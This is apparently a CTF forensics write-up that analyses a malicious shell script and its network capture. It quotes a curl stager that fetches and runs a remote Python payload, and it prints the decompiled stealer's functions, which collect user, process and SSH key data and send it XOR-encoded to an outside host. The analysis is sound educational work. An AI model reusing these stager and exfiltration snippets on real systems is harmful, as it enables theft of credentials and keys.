

# solution

## First, let's look at `mal.sh`


```bash
which python3 >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi
```
`which` locates a command and `$?` gets the result of the most recent command, so the if statement is just checking whether or not python3 exists on the system. The script does the same thing with `curl`.

```bash
mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')
```
We can see that a mac address is being constructed and put into `mac_addr`. This is done by this chain of commands, do a bunch of `man` calls for each of these commands to better understand them. But the gist of it is, `ip addr` is getting a bunch of network information, the following piped commands extract our mac address out.

```bash
curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg
```
Here we can see that the program is pulling information from the internet with the `curl` command at the address `54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr)`. So when we look at the pcap later, we can expect to see a HTTP GET request, or at least try to find this url. The information following the `-H` switch just specifies what the header information is for the request. Then whatever we get from that command, we're decoding it with base64 and piping it into `/tmp/.cacheimg`.

```bash
python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```
Finally, we just run whatever we got with python and then delete it.

Okay! Now we should look at the pcap, we know we're looking for behaviour that lines up with this scripts commands.

## Looking at evidence.pcapng

We know from looking at `mal.sh` that a GET request was issued to 54.80.43.46. So we start by looking at the HTTP protocol, and oh hey it's right there.



There's a GET request and a POST request, we want to extract the data being transferred here. The way I did this was go to File > Export Objects > HTTP and then selecting the one called `banner.png?cache=NGI6ZTE6ZDY6YTg6NjY6YmUK`. I also exported the POST request information as well for later. With this, we now have a file full of jumbled information.\
\
But recall what we figured out when we looked at mal.sh, they also called `base64 -d` on it, so our information is just encoded! So we can just call:
```bash
base64 -d banner.png?cache=NGI6ZTE6ZDY6YTg6NjY6YmUK > output
```
to decode the information and put it into the file output. If you printed output it does not look like python code, it looks all messed up, in fact, calling `python3` on it wouldn't work either! \
\
However running `file` on output (`file` is a command you should run on files to check, it's a good habit to form) gives us this:
`output: python 3.6 byte-compiled` \
Ah! So it looked like gibberish because it was compiled code, so then we can just uncompile: \
`$ uncompyle6 out.pyc > malicious_code.py` \
gives us our python code, piped into `malicious_code.py`.

## Looking at our extracted python code
I won't go deep into detail about what this does. But notice that the first command being run is `a()`, at the bottom.
```python
try:
    a()
except:
    pass
```
So following control flow, let's look at `a()`:
```python
def a():
    key = ':'.join(re.findall('..', '%012x' % uuid.getnode()))
    if '4b:e1:d6:a8:66:be' != key:
        return
    net = get_net_info()
    user = get_users()
    proc = get_proc()
    ssh = []
    for _, _, a, _ in user:
        ssh.append(get_ssh(a))

    data = build_output(net, user, proc, ssh)
    send(data)
```
Ok, it checks if our mac address is the same as the target's, then calls a bunch of functions to get information, combines it into `data` and calls `send(data)`. It's not a good idea to run malware, so don't run it as a way of figuring out what it does. So far, we're just getting info and sending it, lets look at `send(data)`:
```python
def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()
```
Ok, what's going on here before we send it as a POST request. Remember that information we extracted from `evidence.pcapng`? It was some information from a POST request, the information we got form the pcap was the victim's encrypted data that was sent to the attacker! We need to decode it to understand what information was exfiltrated \
\
 The data is being encoded with `json.dumps(data).encode()`, we're doing an iterative XOR between each character of our encoded data with some key `k = b'8675309'`, then it's getting encoded in base64 and finally sent. Let's write a short python script that just reverses this. I put the information we got from the POST request in the pcap into a variable called `flag` that then went into this program:

 ```python
flag = base64.b64decode(flag)
k = b'8675309'
decoded = bytes([flag[i] ^ k[(i % len(k))] for i in range(len(flag))])

print(decoded.find(b'dam'))
```
This outputted `9558`, which is the index in `decoded` that contains the string `dam`, so lets just print more of it:

```python
print(decoded[9558:9600])
```
which gives us `b'dam{oh_n0_a1l_muh_k3y5_are_g0n3}", "GJS_DE'`, hence we got our flag! \
\
flag: `dam{oh_n0_a1l_muh_k3y5_are_g0n3}`